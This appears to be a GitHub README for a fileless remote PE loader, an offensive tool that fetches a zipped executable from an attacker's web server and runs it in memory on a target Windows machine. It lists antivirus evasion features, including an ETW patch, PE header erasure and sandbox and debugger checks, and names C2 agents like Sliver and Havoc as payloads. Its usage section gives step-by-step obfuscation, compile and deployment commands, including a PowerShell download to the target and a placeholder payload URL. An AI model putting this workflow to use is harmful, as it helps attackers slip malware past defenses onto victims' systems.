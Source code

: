 ### Fileless-Remote-PE-Loader
--------------------------------------
This loader allows to download, unzip, and execute directly in-memory a compressed offensive security tool (x64 PE executable embeded in a zip file) retrieved from a remote web server. It implements several defense evasion techniques (e.g. fileless delivery + reflective PE loading, ETW bypass, sandbox checks) designed to bypass antivirus solutions such as Windows Defender.

#### FEATURES
- Fileless delivery + Reflective PE loading (Download, decompress, and execute in-memory a zipped x64 PE)
- ETW bypass in user-mode (patching EtwEventWrite functions)
- Dynamic API resolution (avoid static import of suspicious API 'VirtualAlloc')
- PE header erasure (After mapping the PE into memory, the DOS + NT headers are zeroed out to reduce forensic visibility) 
- Memory protection hardening (Applies section-specific memory permissions i.e. first writable, then switched to execute-only)
- Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
- Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as C2 agents (e.g. Sliver, Havoc), ...

#### USAGE
- STEP 1 - Obfuscate the source code by removing all comments and 'printf' statements, renaming function and variable names, etc.

- STEP 2 - Compile the source code.  
           <i/>Note: the tool uses the 'miniz.c' library to perform ZIP decompression operations (https://github.com/richgel999/miniz)</i>
```
Example with Visual Studio 2022 Developer Command Prompt v17.14.14:
-------------------------------------------------------------------
c:\path-to-project\Fileless-Remote-PE-Loader> echo IDI_ICON1 ICON "myicon.ico" > appicon.rc
c:\path-to-project\Fileless-Remote-PE-Loader> rc appicon.rc
c:\path-to-project\Fileless-Remote-PE-Loader> cl /TC Fileless-Remote-PE-Loader.c miniz.c /link wininet.lib /MACHINE:X64 /OUT:Fileless-Remote-PE-Loader.exe appicon.res
```

- STEP 3 - Host on a web server the ZIP file embeding the offensive security tool (x64 PE) that you want to execute
```
Examples:
---------
- http://XX.XX.XX.XX:8080/file.zip
- http://XX.XX.XX.XX/file.zip
- https://your.website/file.zip
```
- STEP 4 - Upload the tool 'Fileless-Remote-PE-Loader.exe' on a target Windows machine and create in the same folder an "url.txt" file that contains the url to download your zip file.
		   When you will run the loader, it will download, unzip and execute in-memory your compressed PE file (x64 exe) located on your remote web server ('url.txt' file).
```
1. Download the loader
----------------------
c:\temp> powershell -c "wget -uri https://IP/Fileless-Remote-PE-Loader.exe - OutFile C:\temp\Fileless-Remote-PE-Loader.exe"
c:\temp> echo "http://ip/file.zip" > C:\temp\url.txt

2. Run the loader with the arguments to pass to the PE
------------------------------------------------------
c:\temp> Fileless-Remote-PE-Loader.exe arg1 arg2 [...]
or
2.bis Run the loader without argument
-------------------------------------
c:\temp> Fileless-Remote-PE-Loader.exe
No argument was provided. Press 'Enter' to continue, or press 'Ctrl+C' to exit and relaunch with arguments.
```

#### OPSEC improvement (to do)
- Implement direct syscalls to improve stealth because the use of 'VirtualAlloc' with 'PAGE_READWRITE' then 'VirtualProtect' to executable presents a 'medium' risk of detection.
  
#### LICENSE
GNU General Public License v3.0


